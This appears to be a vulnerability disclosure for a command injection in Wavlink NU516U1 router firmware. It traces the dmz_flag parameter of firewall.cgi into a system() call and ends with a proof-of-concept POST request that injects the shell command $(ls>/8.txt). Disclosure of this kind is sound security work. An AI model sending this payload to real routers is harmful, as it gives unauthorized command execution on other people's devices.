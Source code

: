 # Wavlink NU516 DMZ
### Overview
vendor: Wavlink

product: NU516U1

version: M16U1_V240425

type: Command Injection
### Vulnerability Description
Wavlink NU516U1 M16U1_V240425 were discovered to contain a command injection via the dmz_flag parameter in the sub_401778 function of the file firewall.cgi.
### Vulnerability details
In the ftext function, obtain the value of the firewall parameter via user input.

![](images/12.png)

Setting the value of the firewall parameter to DMZ will call the sub_401778 function.

![](images/18.png)

In the sub_401778 function, the value of the dmz_flag parameter is obtained via a post request. Then, the value of the dmz_flag parameter is passed to the v16 variable via the sprintf function, which in turn is passed to the sub_402C98 function. In the sub_402C98 function, the value of the v16 variable is passed into the byte_418C74 variable, and finally into the system function.

![](images/19.png)

![](images/20.png)

![](images/21.png)

### POC
```
POST /cgi-bin/firewall.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 47
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/html/networkSetting.shtml
Accept-Encoding: gzip, deflate, br
Cookie: session=1683361907
Connection: keep-alive

firewall=DMZ&DMZEnabled=0&dmz_flag=$(ls>/8.txt)
```